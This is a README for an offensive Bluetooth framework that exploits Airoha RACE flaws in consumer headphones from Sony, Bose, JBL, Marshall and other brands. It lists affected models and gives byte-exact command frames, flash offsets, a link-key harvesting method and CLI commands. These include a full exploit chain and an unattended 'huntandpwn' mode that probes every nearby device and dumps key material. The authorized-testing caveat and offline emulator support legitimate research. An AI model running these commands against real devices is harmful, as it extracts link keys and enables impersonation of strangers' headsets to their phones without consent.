




<div align="center">

# R A C E

### Bluetooth Headphone Jacking Framework


[](#03--protocol-internals)
[](#01--vulnerability-surface)
[](#09--installation)
[](#13--troubleshooting)
[](#02--system-architecture)
[](LICENSE)

<sub><b>Church of Malware × ek0ms savi0r</b> · Airoha RACE research · 853 LOC core + offline emulator · GATT, no pairing, no bonding</sub>

</div>

---

> [!CAUTION]
> **Authorized testing only.** Every technique documented here is an *active* radio interaction: connecting to a peer is observable by the device and by anything monitoring the piconet. Use it on hardware you own or have written permission to assess. No warranty — see [LICENSE](LICENSE).

---

## 00 · Quick start

```bash
git clone https://github.com/zazieproductions/RACE.git && cd RACE
sudo apt install -y bluez libbluetooth-dev && pip3 install --user -e .

sudo python3 race.py scan --deep --timeout 15        # enumerate, then verify 0x1200 on name matches
sudo python3 race.py exploit <MAC> --action dump     # build info → BD_ADDR → flash window

# offline: no radio, no headset, no BLE stack, no real key material
python3 -m emulator                                  # scripted RACE trace
python3 -m emulator -i --error build:silent           # interactive fault lab
```

<sub>**Emulator** — [§14](#14--virtual-headphone-emulator) · start with `python3 -m emulator --list-profiles`; the virtual peripheral needs only the Python standard library.</sub>

<sub>**Index** — [Vulnerability surface](#01--vulnerability-surface) · [Architecture](#02--system-architecture) · [Protocol](#03--protocol-internals) · [Exploit chain](#04--exploit-chain) · [Transport lifecycle](#05--transport-lifecycle) · [Data path](#06--command-data-path) · [Discovery](#07--discovery--targeting) · [Flash map](#08--flash-window--key-material) · [CLI](#10--cli-reference) · [Status](#11--implementation-status) · [Emulator](#14--virtual-headphone-emulator)</sub>

---

## 01 · Vulnerability surface

The Airoha RACE service is exposed over GATT **before** authentication. There is no pairing step, no bonding requirement, and no application-layer challenge between connection establishment and the first command — the trust boundary is the radio link itself, not the protocol.

| CVE | Severity | CVSS | Class | Primitive |
|:----|:---------|:----:|:------|:----------|
| **CVE-2025-20700** |  | **9.6** | Auth bypass | Unauthenticated RACE protocol access over BLE |
| **CVE-2025-20701** |  | **8.8** | Memory corruption | Arbitrary flash read/write (`0x0403` / `0x0404`) |
| **CVE-2025-20702** |  | **9.1** | Credential exposure | Link key extraction → device impersonation |

**Attack prerequisites, in order of cost:**

| Requirement | Detail | Cost |
|:------------|:-------|:-----|
| Radio proximity | BLE advertising range (~10–30 m, class 2) |  |
| Adapter | Any HCI controller with BLE central role; BlueZ ≥ 5.55 recommended |  |
| Pairing / key | **None.** `0x1200` is reachable pre-authentication |  |
| Timing | Discoverable/connectable advertising window; some models stop advertising when connected to a phone |  |

### Supported hardware

| Vendor | Models |
|:-------|:-------|
| **Sony** | WH-1000XM4, WH-1000XM5, WH-1000XM6, WF-1000XM3, WF-1000XM4, WF-1000XM5, WH-CH520, WH-CH720N, WH-XB910N, LinkBuds S, ULT Wear, WI-C100 |
| **Marshall** | ACTON III, MAJOR V, MINOR IV, MOTIF II, STANMORE III, WOBURN III |
| **Bose** | QuietComfort Earbuds III |
| **JBL** | Endurance Race 2, Live Buds 3 |
| **Jabra** | Elite 8 Active |
| **Beyerdynamic** | Amiron 300 |
| **Other** | EarisMax Bluetooth Auracast, JLab Epic Air Sport ANC |

Discovery does **not** use this list as ground truth — it is a substring heuristic over the advertised name (see [§07](#07--discovery--targeting)). Full compatibility matrix: [Insinuator.net disclosure](https://insinuator.net/2025/12/bluetooth-headphone-jacking-full-disclosure-of-airoha-race-vulnerabilities/).

---

## 02 · System architecture

Five layers, one direction of dependency: presentation never touches the radio, modules never own a socket, and the protocol layer is the only place bytes are encoded.



**Colour legend** — held constant across every diagram in this document:

| Violet | Amber | Red | Cyan | Magenta | Grey | Green |
|:------:|:-----:|:---:|:----:|:-------:|:----:|:-----:|
| presentation | recon | offensive | transport | protocol | radio / link | target / success |

### Component contract

| File | LOC | Responsibility | Public surface |
|:-----|----:|:---------------|:---------------|
| `race.py` | 249 | Argument parsing, logging, banner. **No research logic.** | `scan`, `hunt`, `exploit`, `info`, `huntandpwn`, `emulate` |
| `utils/config.py` | 53 | Frozen dataclass of protocol constants + timeouts; struct format strings | `RACEConfig`, `frame_header()`, `cmd()` |
| `utils/packet.py` | 109 | Frame encode/decode, opcode table, typed error hierarchy with codes | `build_race_packet()`, `parse_race_response()`, `RacePacket`, `RACEError` |
| `transports/ble.py` | 179 | Client lifecycle, service/characteristic resolution, notify drain, injectable client factory | `BLETransport`, `BLETransportError`, `ClientFactory` |
| `modules/discovery.py` | 100 | Passive name heuristics + active service probing | `scan_for_targets()`, `aggressive_scan()` |
| `modules/fingerprint.py` | 32 | Single-shot build-info read | `fingerprint()` |
| `modules/exploit.py` | 101 | Fingerprint → BD_ADDR → flash window → key candidates | `auto_exploit()`, `struct_pack_flash()` |
| `modules/auto_hunter.py` | 30 | Chains discovery into exploitation | `hunt_and_pwn()` |
| `test_scan.py` | — | Standalone 5-second `BleakScanner` smoke test, no framework imports | — |

### Offline emulation layer (`emulator/`, optional)

The emulator mirrors the bottom two layers without a radio or any third-party dependency. It is not imported by the live path; instead `BLETransport` accepts an injectable `client_factory`, so the *same* transport and modules run against a simulated peripheral. Traffic flows `modules/ → transports/ble.py → emulator/client.py → emulator/device.py`; nothing in `emulator/` imports `bleak`.

| File | LOC | Responsibility | Public surface |
|:-----|----:|:---------------|:---------------|
| `emulator/device.py` | 462 | Simulated GATT peripheral: identity, link state, frame parsing, fault application | `VirtualHeadphone`, `DeviceProfile`, `PROFILES`, `load_profile()` |
| `emulator/responses.py` | 335 | Synthetic build/BD_ADDR/flash/RAM/FOTA payloads and status words | `SyntheticResponder`, `Response`, `KEY_MARKER` |
| `emulator/client.py` | 179 | bleak-compatible in-process client; schedules notifications on the event loop | `VirtualBleakClient` |
| `emulator/session.py` | 147 | Raw frame write + collect-all-notifications primitive | `VirtualSession` |
| `emulator/faults.py` | 260 | Fault rules, probability/count selection, spec parser | `FaultRule`, `FaultPlan`, `FaultKind`, `parse_fault_spec()` |
| `emulator/explorer.py` | 523 | Scripted/interactive trace UI, frame decoding, hexdump | `Explorer`, `describe_frame()` |
| `emulator/cli.py` | 343 | Shared `run()` used by `python3 -m emulator` and `race.py emulate` | `run()`, `main()`, `list_profiles()` |
| `tests/test_emulator.py` | 509 | 51 stdlib-only tests: encoding, faults, transport/module integration, CLI | — |

**Design invariants worth knowing before you patch:**

1. **One source of truth for constants.** No module hardcodes a UUID or opcode; everything resolves through `RACEConfig`.
2. **The transport owns its lifecycle.** `BLETransport` is an async context manager — `__aexit__`/`finally` tears down the client even on exception or timeout, so a failed command cannot leak a link.
3. **Parsing is strict and typed.** Every malformed field raises `RACEProtocolError` with a machine-readable `code`; the transport re-wraps it as `BLETransportError(code="BAD_RESPONSE")` so callers can distinguish *radio* failure from *protocol* failure.
4. **Modules return dicts, never raise.** `{"status": "success", ...}` or `{"status": "error", "message": ...}` — the CLI decides how to print. That keeps `race.py` presentation-only.

---

## 03 · Protocol internals

RACE frames are a fixed 6-byte header plus a variable payload. All multi-byte fields are **little-endian**.

```
        ┌────────┬────────┬────────────────┬───────────────┬──────────────────────┐
  byte  │   0    │   1    │     2 – 3      │     4 – 5     │      6 … 5 + N       │
        ├────────┼────────┼────────────────┼───────────────┼──────────────────────┤
  field │  Head  │  Type  │ Length (u16le) │  CMD (u16le)  │       Payload        │
  size  │  1 B   │  1 B   │      2 B       │      2 B      │         N B          │
  value │  0x05  │  0x00  │     2 + N      │    opcode     │    command data      │
        │  0x15  │  0x01  │                │               │                      │
        └────────┴────────┴────────────────┴───────────────┴──────────────────────┘
                 request         ↑                                        ↑
                 response     includes CMD                     N = Length − 2
```

| Field | Width | Encoding | Accepted values | Enforced by |
|:------|:------|:---------|:----------------|:------------|
| `Head` | 1 B | `u8` | `0x05` standard · `0x15` FOTA | `parse_race_response` → `BAD_HEAD` |
| `Type` | 1 B | `u8` | `0x00` request · `0x01` response | `parse_race_response` → `BAD_TYPE` |
| `Length` | 2 B | `u16le` | `len(CMD) + len(Payload)` = `2 + N` | `BAD_LENGTH` if `< 2` or payload overruns |
| `CMD` | 2 B | `u16le` | see opcode table | caller |
| `Payload` | N B | opaque | command-specific | `BAD_LENGTH` on short read |

> [!NOTE]
> The length field counts the **CMD bytes inside it**. A build-version request with an empty payload therefore carries `02 00`, not `00 00` — the single most common off-by-two when writing a new client.

### Opcode map

| Command | Opcode | Request payload | Reply consumed as | Status |
|:--------|:-------|:----------------|:------------------|:-------|
| Get Build Version | `0x1E08` | *empty* | UTF-8 string, `NUL`-stripped |  |
| Get BD_ADDR | `0x0C05` | *empty* | `payload[0:6]` as `AA:BB:CC:DD:EE:FF` |  |
| Read Flash | `0x0403` | `[0x00][count:u16le][offset:u32le]` | raw page bytes |  |
| Write Flash | `0x0404` | mirror of read + data | status word |  |
| Read RAM | `0x1680` | address descriptor | memory bytes |  |
| Write RAM | `0x1681` | address + data | status word |  |
| FOTA start | `0x1E0F` | firmware stream, head `0x15` | status word |  |

### Frame cookbook

Byte-exact requests as emitted by `build_race_packet()` — verified against the encoder:

| Operation | Length | Wire bytes |
|:----------|-------:|:-----------|
| Build version | 6 | `05 00 02 00 08 1E` |
| Bluetooth address | 6 | `05 00 02 00 05 0C` |
| Flash page @ `0x1A000` | 13 | `05 00 09 00 03 04 00 01 00 00 A0 01 00` |
| Flash page @ `0x1B000` | 13 | `05 00 09 00 03 04 00 01 00 00 B0 01 00` |
| RAM read | 6 | `05 00 02 00 80 16` |

Read-back conventions: build info is decode-as-UTF-8 with `NUL` stripped; BD_ADDR is the **first 6 payload bytes** rendered as `AA:BB:CC:DD:EE:FF`.

---

## 04 · Exploit chain

The full `--action full` path, with the actual frames on the wire:



### What each stage actually buys you

| Stage | Primitive | Opcode | Output | Why it matters |
|:------|:----------|:-------|:-------|:---------------|
| **Recon** | Unauthenticated GATT connect | — | Service map | Proves the device ships RACE enabled; rejects non-Airoha peers in one round trip |
| **Fingerprint** | Build version read | `0x1E08` | SoC, SDK, timestamp | Selects the correct flash layout and offsets for the next stage |
| **Identity** | BD_ADDR read | `0x0C05` | Classic address | Classic BT address differs from the BLE address; required for impersonation |
| **Extraction** | Flash page read | `0x0403` | Page-sized reads | Link keys live in plaintext in the `0x1A000`–`0x1D000` window |
| **Reuse** | Link-key replay | — | Cloned identity | A recovered key lets a second controller present as the headset to the paired phone |
| **Pivot** | HFP over Classic | — | Calls, contacts, messages | Downstream of impersonation; not implemented in this framework |

> [!WARNING]
> Stage 5 is where this stops being read-only. Writing flash (`0x0404`) against a live device can brick it — there is no recovery path in this repository. Treat the write primitive as research-only until you have a dump and an off-device backup.

---

## 05 · Transport lifecycle

`BLETransport` is a five-state object with deterministic teardown. Nothing is left connected, ever — including when a command times out mid-flight.



| Transition | Guard | Failure code |
|:-----------|:------|:-------------|
| `Idle → Connecting` | not already connected | — |
| `Connecting → Resolving` | `client.is_connected` | `NO_RESPONSE` if link drops |
| `Resolving → Armed` | service `0x1200` + characteristic `0x1201` present | `SERVICE_NOT_FOUND`, `TX_NOT_FOUND` |
| `Armed → Armed` | frame written with response, reply queued within read timeout | `NO_RESPONSE`, `BAD_RESPONSE` |
| `* → Closed` | context-manager exit, exception, or explicit call | — |

### Timeout budget

| Parameter | Default | Scope | Override |
|:----------|--------:|:------|:---------|
| `connect_timeout_s` | `10.0` | ATT connection establishment | `RACEConfig` field |
| `read_timeout_s` | `5.0` | Waiting for a queued notification | `RACEConfig` field |
| `scan_timeout_s` | `10.0` | Passive discovery window | `--timeout` on `scan`/`hunt` |
| deep-probe connect | `5` s | per candidate in `scan --deep` | hard-coded in `discovery.py` |
| hunt-probe connect | `3` s | per peer in `aggressive_scan` | hard-coded in `discovery.py` |

### Error taxonomy

Every failure carries a stable `code` so callers can branch without string matching:

| Code | Raised at | Meaning | Blast radius |
|:-----|:----------|:--------|:-------------|
| `TOO_SHORT` | parser | Fewer than 6 bytes, or header truncated |  |
| `BAD_HEAD` | parser | Head not `0x05`/`0x15` — not a RACE frame |  |
| `BAD_TYPE` | parser | Type outside `0x00`/`0x01` |  |
| `BAD_LENGTH` | parser | Length `< 2` or payload overruns the frame |  |
| `SERVICE_NOT_FOUND` | transport | Peer connected but exposes no `0x1200` |  |
| `TX_NOT_FOUND` | transport | Service present, write characteristic missing |  |
| `NO_RESPONSE` | transport | Nothing queued within `read_timeout_s` |  |
| `BAD_RESPONSE` | transport | Reply queued but unparseable |  |
| `CLOSED` | transport | Reuse of a torn-down transport |  |
| `BLEAK_MISSING` | transport | `bleak` is not installed and no `client_factory` was injected |  |

Hierarchy: `RACEError` → `RACEProtocolError` → `BLETransportError`, so a bare `except RACEProtocolError` catches every malformed-bytes path while leaving radio errors distinguishable. A parallel `RACETransportError` is defined in `utils/packet.py` for call sites that want a transport-typed exception without importing the BLE layer.

---

## 06 · Command data path

One `send_command()` call, end to end — encode, write, notify, drain, validate:

```mermaid
flowchart LR
    A["cmd: int<br/>payload: bytes"]:::proto --> B["build_race_packet()<br/>head 0x05 · type 0x00<br/>length = 2 + N"]:::proto
    B --> C["write_gatt_char(TX 0x1201,<br/>response=True)"]:::transport
    B -.->|capture TX| B2["capture TX<br/>pcap / btsnoop"]:::capture
    C --> D["Airoha SoC"]:::device
    D --> E["notification on RX 0x1202"]:::link
    E --> F["asyncio.Queue<br/>response drain"]:::transport
    F -.->|capture RX, pre-parse| F2["capture RX<br/>raw or malformed"]:::capture
    F --> G["parse_race_response()<br/>head · type · length · cmd"]:::proto
    G --> H{"fields valid?"}:::proto
    H -->|"yes"| I["RacePacket.payload"]:::ok
    H -->|"no"| J["BLETransportError<br/>code = BAD_RESPONSE"]:::err
    I --> K["auto_exploit()<br/>status = success"]:::ok
    J --> K

    classDef proto fill:#1d1430,stroke:#9d4edd,color:#ecd9ff,stroke-width:1.5px
    classDef transport fill:#0f2430,stroke:#48cae4,color:#d6f4ff,stroke-width:1.5px
    classDef link fill:#14181f,stroke:#7d8590,color:#e6edf3,stroke-width:1.5px
    classDef device fill:#0f241c,stroke:#43aa8b,color:#d8f3e8,stroke-width:2px
    classDef capture fill:#1a1a1f,stroke:#6e7681,color:#c9d1d9,stroke-width:1.5px,stroke-dasharray:4 2
    classDef ok fill:#0f241c,stroke:#2ea043,color:#d8f3e8,stroke-width:1.5px
    classDef err fill:#2b0f14,stroke:#e63946,color:#ffd7dc,stroke-width:1.5px
```



Two properties shape how you drive it:

- **Request/response pairing is sequential by construction.** `send_command` writes, then `await`s one item from the queue under `read_timeout_s`. There is no per-opcode correlation, so callers must keep commands serial per transport — fire two concurrently and both will consume from the same queue.
- **Payload, not frame.** Callers never see head, type, or length bytes — the parser strips them and hands back `payload` only. That is why `auto_exploit` can slice `raw[:6]` for the BD_ADDR without arithmetic.

### Wire capture — replay the session in Wireshark

Every frame the transport writes, and every frame it hands to `parse_race_response()`, can be mirrored into a capture file. One flag turns it on for any GATT session; the env var does it without editing the command line:

```bash
# group option — place it before the subcommand
sudo python3 race.py --capture /tmp/session.pcap exploit A0:12:34:56:78:90 --action dump

# or set it once for every invocation, including unattended runs
RACE_CAPTURE=/tmp/session.btsnoop sudo -E python3 race.py huntandpwn --timeout 30
```

| Path / flag | Container | Open with |
|:------------|:----------|:----------|
| `.pcap`, `.cap`, anything else | libpcap, `LINKTYPE_BLUETOOTH_HCI_H4_WITH_PHDR` (201) | Wireshark, `tshark`, `tcpdump -r` |
| `.btsnoop`, `.snoop` | btsnoop v1, datalink 1002 (H4 UART) | Wireshark, `btmon -r` |

`--capture-format {pcap,btsnoop}` (or `RACE_CAPTURE_FORMAT`) overrides the extension. Each RACE frame is wrapped in a synthetic **HCI ACL → L2CAP (CID `0x0004`) → ATT PDU** chain — requests as ATT Write Commands on handle `0x0023`, responses as ATT Handle Value Notifications on `0x0026` — with the RACE bytes untouched as the attribute value. Direction rides in the pcap pseudo-header and the btsnoop flags, so both readers label host → device and device → host correctly.

```bash
# just the RACE frames, as hex + opcode, no GUI
tshark -r /tmp/session.pcap -Y btatt -T fields -e btatt.opcode -e btatt.value

# text replay through BlueZ instead of Wireshark
btmon -r /tmp/session.btsnoop
```

One file per run: the sink is shared per path, so `huntandpwn` keeps appending as it walks from device to device instead of truncating on every connection. The same flag works against the [virtual headphone](#14--virtual-headphone-emulator) — no radio needed to exercise the capture path:

```bash
python3 race.py --capture /tmp/virtual.pcap emulate --action dump
```

Records are flushed per frame, so a killed or crashed session still leaves a loadable file. A capture that cannot be opened or written (bad path, full disk) logs a warning and never interrupts the session. `scan` and `hunt` stop at discovery and never open a transport, so they produce no file; the emulator's raw explorer is captured alongside the real transport when both run in one invocation.

---

## 07 · Discovery & targeting

Two complementary strategies, one passive and one loud:

| Mode | Implementation | Radio cost | Returns |
|:-----|:---------------|:-----------|:--------|
| **Passive enumerate** | `BleakScanner.discover(return_adv=True)` | Receive-only, invisible | Every advertiser + RSSI + name |
| **Deep probe** | Filter by name heuristic, then connect one-by-one | Connect per candidate | Adds `race_service`, `race_tx` booleans |
| **Aggressive hunt** | Connect to **every** peer, read service table | Connect per advertiser, 3 s cap | Confirmed `0x1200` holders only |

### Name heuristic

```python
VULNERABLE_MODELS = [
    "WH-1000XM", "WF-1000XM", "WH-CH", "LinkBuds", "ULT Wear",
    "Marshall", "JBL", "Bose", "Jabra", "Beyerdynamic",
]
```

Substring match against the advertised local name. It is a **pre-filter, not proof** — a renamed Sony headset drops out of `scan --deep`, while any device that puts "Bose" in its name gets probed. `aggressive_scan` deliberately ignores the list and verifies the service UUID instead; use it when the heuristic is suspect.



---

## 08 · Flash window & key material

`struct_pack_flash(offset)` emits `[0x00][count:u16le=1][offset:u32le]` — seven payload bytes, thirteen on the wire. Four offsets are attempted, and the loop stops at the first reply that parses:

| Page | Offset | Request | Read strategy | Expected content |
|:-----|:-------|:--------|:--------------|:-----------------|
| P0 | `0x1A000` | `count=1` | first successful read confirms the primitive; loop exits here | primary extraction window in public research |
| P1 | `0x1B000` | `count=1` | same descriptor, incremented offset | settings + key material on some SDKs |
| P2 | `0x1C000` | `count=1` | — | calibration blobs |
| P3 | `0x1D000` | `count=1` | — | calibration blobs |

Page size is **firmware-defined**, not fixed by the protocol: `count` selects pages, not bytes, and the caller receives whatever the device returns for that region. The exploit only requires a reply longer than 10 bytes to start scanning, so it makes no assumption about a 4 KiB geometry.

Key harvesting is heuristic, and intentionally conservative:

1. Take the transport payload (frame head, type, length and CMD are already stripped by `parse_race_response`).
2. Skip 6 further bytes (`raw[6:]`), then stride 16 bytes across that slice while the index stays below `min(len(data) - 16, 256)`.
3. Flag any stride whose first 8 bytes are all non-zero — a cheap entropy proxy, not a validated key.

> [!TIP]
> A flagged block is a **candidate**, not a link key. Confirm by length (16 B for BLE LTK) and by replaying the value in a paired-phone simulation before drawing conclusions. False positives are common in pages holding calibration data.

---

## 09 · Installation

```bash
# 1 · clone
git clone https://github.com/zazieproductions/RACE.git
cd RACE

# 2 · system dependencies (BlueZ headers + HCI tooling)
sudo apt update
sudo apt install -y bluez libbluetooth-dev python3-pip

# 3 · python dependencies (live BLE path + click CLI)
pip3 install --user -e .

# 4 · verify the radio without the framework
sudo python3 test_scan.py

# 5 · entry point
chmod +x race.py
```

| Dependency | Role | Absent → |
|:-----------|:-----|:---------|
| `bleak` | Async BLE GATT client over BlueZ/D-Bus | no transport at all |
| `click` | Command group, options, `--action` choice validation | CLI won't import |
| `colorama` | Banner + inline ANSI, cross-terminal | plain, uncoloured output |

Wire capture ([§06](#06--command-data-path)) needs no extra dependency — pcap and btsnoop are written with `struct` from the standard library, so there is no libpcap binding to install.

> [!TIP]
> The virtual headphone emulator needs **only** the Python standard library:
> `python3 -m emulator --list-profiles` works on a bare interpreter with no
> BlueZ, no `bleak`, and no adapter. The three dependencies above are for the
> live radio path and the `race.py` click front end.

---

## 10 · CLI reference

| Command | Flags | Path taken | Default timeout |
|:--------|:------|:-----------|:----------------|
| `scan` | `--deep`, `--timeout` | `scan_for_targets()` | 10 s |
| `hunt` | `--timeout` | `aggressive_scan()` | 15 s |
| `exploit <target>` | `--action {fingerprint,dump,full}` | `auto_exploit()` | read 5 s |
| `info <target>` | — | `fingerprint()` | read 5 s |
| `huntandpwn` | `--timeout` | `hunt_and_pwn()` | 20 s |
| `emulate` | `--profile`, `--error`, `--command`, `--script`, `-i`, `--action`, `--list-profiles`, `--json` | `emulator` (in-process, no radio) | read 1 s |

Group-level flags (valid on every command, before the subcommand): `--capture PATH` / `RACE_CAPTURE`, `--capture-format {pcap,btsnoop}` / `RACE_CAPTURE_FORMAT`. See [§06](#06--command-data-path).

```bash
# passive enumerate, then verify services on name-matched peers
sudo python3 race.py scan --deep --timeout 15

# confirm 0x1200 across every advertiser (ignores the name heuristic)
sudo python3 race.py hunt --timeout 20

# single-target staging: build info only → no flash touched
sudo python3 race.py exploit A0:12:34:56:78:90 --action fingerprint

# add BD_ADDR + flash window
sudo python3 race.py exploit A0:12:34:56:78:90 --action dump

# full chain including impersonation stage
sudo python3 race.py exploit A0:12:34:56:78:90 --action full

# discovery → exploitation, unattended
sudo python3 race.py huntandpwn --timeout 30

# same run, with the wire traffic saved for triage
sudo python3 race.py --capture /tmp/session.pcap huntandpwn --timeout 30

# offline protocol work: virtual peripheral, synthetic responses, injected faults
python3 -m emulator --profile generic-airoha
python3 -m emulator --command build --error build:silent --read-timeout 0.1
python3 -m emulator --command 'flash 0x1A000' --error flash_read:bad_length
python3 race.py emulate --action dump
```

`--action` and the subcommand set are validated by `click.Choice`, so a typo fails before any radio traffic is generated.

---

## 11 · Implementation status

Honest matrix — what exists, what is a constant, and what is not written yet:

| Capability | Component | State |
|:-----------|:----------|:------|
| BLE discovery + RSSI | `modules/discovery.py` |  |
| Deep service verification | `modules/discovery.py` |  |
| Build fingerprint (`0x1E08`) | `modules/fingerprint.py` |  |
| BD_ADDR read (`0x0C05`) | `modules/exploit.py` |  |
| Flash page read (`0x0403`) | `modules/exploit.py` |  |
| Automated chain | `modules/auto_hunter.py` |  |
| Virtual RACE peripheral (offline) | `emulator/device.py` |  |
| Synthetic build/BD_ADDR/flash/RAM/FOTA responses | `emulator/responses.py` |  |
| Configurable fault injection | `emulator/faults.py` |  |
| Emulator ↔ real transport/module integration | `transports/ble.py` (`client_factory`) |  |
| Flash write (`0x0404`) | `utils/packet.py` |  |
| RAM read/write (`0x1680`/`0x1681`) | `utils/packet.py` |  |
| FOTA path (head `0x15`) | `utils/config.py` |  |
| Wire capture for Wireshark/btmon | `utils/capture.py` (transport + virtual explorer) |  |
| Classic RFCOMM transport | `transports/` |  |
| Link-key validation + replay | `modules/exploit.py` |  |
| HFP pivot (calls, contacts) | — |  |

> [!IMPORTANT]
